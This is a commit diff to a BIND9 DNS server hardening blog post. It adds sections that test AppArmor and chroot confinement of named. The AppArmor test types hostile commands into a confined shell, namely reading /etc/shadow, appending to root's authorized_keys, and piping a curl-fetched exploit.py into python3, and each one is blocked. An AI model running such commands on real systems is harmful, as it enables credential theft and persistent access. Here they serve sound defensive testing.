

Before and after one commit to straysheep-dev/straysheep-dev.github.io, an MkDocs documentation site: the page built from docs/blog/posts/bind9.md, in a window 1280 px wide and 1400 px high, scrolled down 12859 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update blog

````diff
--- a/docs/blog/posts/bind9.md
+++ b/docs/blog/posts/bind9.md
@@ -2,6 +2,7 @@
 draft: false
 date:
   created: 2024-07-19
+  updated: 2024-07-23
 categories:
   - how-to
   - administration
@@ -21,7 +22,7 @@ description: How to install, maintain, and run a BIND9 DNS server.
 
 How to install, maintain, and run a BIND9 DNS server (`named`). Covers building from source, configuring, hardening, and DNS over TLS as well as DNSSEC.
 
-*Updated on 2024/07/19.*
+*Updated on 2024/07/23.*
 
 <!-- more -->
 
@@ -847,6 +848,53 @@ This profile locks `named`'s ability to access or modify data to the following p
 ```
 
 
+!!! example "Reviewing Confinement"
+
+	- [`aa-exec` manpage](https://gitlab.com/apparmor/apparmor/-/wikis/manpage_aa-exec.1#synopsis)
+
+	AppArmor has a tool called `aa-exec` that allows you to run a process under the confinement of a (currently loaded) profile. When asking ChatGPT if there's a similar method for AppArmor to using `snap run --shell firefox` or `flatpak run --command=bash firefox` to explore what the snap/flatpak-confined firefox process can see and do, it pointed to `aa-exec`. This is essentially the same thing, allowing you to explore the AppArmor confinement of regular deb packages that have a profile.
+
+	Ensure the profile is loaded into AppAmor.
+
+	```bash
+	sudo apparmor_parser -a /etc/apparmor.d/usr.sbin.named
+	```
+
+	Specify the profile name based on what `sudo aa-status` returns for that executable. For example you would use `named` and not `usr.sbin.named` here. To open a `bash` shell in `named`'s AppArmor profile:
+
+	```bash
+	sudo aa-exec -p named -- /bin/bash
+	```
+
+	This results in a bash process confined by the `usr.sbin.named` profile.
+
+	```bash
+	server@ubuntu2404:~$ sudo aa-exec -p named -- /bin/bash
+	bash: /etc/bash.bashrc: Permission denied
+	bash: /root/.bashrc: Permission denied
+	bash-5.1#
+	bash-5.1# cat /etc/shadow
+	bash: /usr/bin/cat: Permission denied
+	bash-5.1#
+	bash-5.1# echo 'bad-key' >> /root/.ssh/authorized_keys
+	bash: /root/.ssh/authorized_keys: Permission denied
+	bash-5.1#
+	bash-5.1# sh -c whoami
+	bash: /usr/bin/sh: Permission denied
+	bash-5.1# bash
+	bash: /usr/bin/bash: Permission denied
+	bash-5.1#
+	bash-5.1# nc
+	bash: /usr/bin/nc: Permission denied
+	bash-5.1#
+	bash-5.1# curl http://127.0.0.1:8080/exploit.py | python3
+	bash: /usr/bin/python3: Permission denied
+	bash: /usr/bin/curl: Permission denied
+	bash-5.1#
+	bash-5.1# touch /tmp/test.txt
+	bash: /usr/bin/touch: Permission denied
+	```
+
 
 ### SELinux
 
@@ -950,6 +998,36 @@ find /chroot/ -type f
 `named` is now running in a chroot.
 
 
+!!! example "Reviewing Confinement"
+
+	- [GNU Manual: Coreutils/Chroot](https://www.gnu.org/software/coreutils/chroot)
+	- [HackTricks: Chroot Escapes](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#chroot-escapes)
+
+	You can interactively explore a chroot environment with the `chroot <path>` command. Specify the `<path>` to your chroot, then a command or shell to execute. If you don't specify a shell, it defaults to `/bin/sh -i`.
+
+	!!! quote "man chroot"
+
+		If no command is given, run '"$SHELL" -i' (default: '/bin/sh -i').
+
+	You can see below with the chroot created for bind, there aren't any binaries available to execute. There's no way to explore this interactively in our case, which is exactly what we want. For reference, `find` was used to list all avaialble files under the chroot. Assume that a rogue `named` process could at the very least "see" these files, which is fine.
+
+	```bash
+	server@ubuntu2404:~$ sudo chroot /chroot/bind
+	chroot: failed to run command ‘/bin/bash’: No such file or directory
+	server@ubuntu2404:~$
+	server@ubuntu2404:~$ sudo find /chroot/ -type f
+	/chroot/bind/etc/bind/named.conf
+	/chroot/bind/etc/bind/rndc.key
+	/chroot/bind/etc/bind/named.rfc1912.zones
+	/chroot/bind/etc/bind/bind.keys
+	/chroot/bind/etc/bind/rndc.conf
+	/chroot/bind/usr/share/dns/root.hints
+	/chroot/bind/var/run/named/session.key
+	/chroot/bind/var/run/named/named.pid
+	/chroot/bind/var/cache/named/managed-keys.bind
+	/chroot/bind/var/cache/named/managed-keys.bind.jnl
+	```
+
 
 ## Administration
 
````
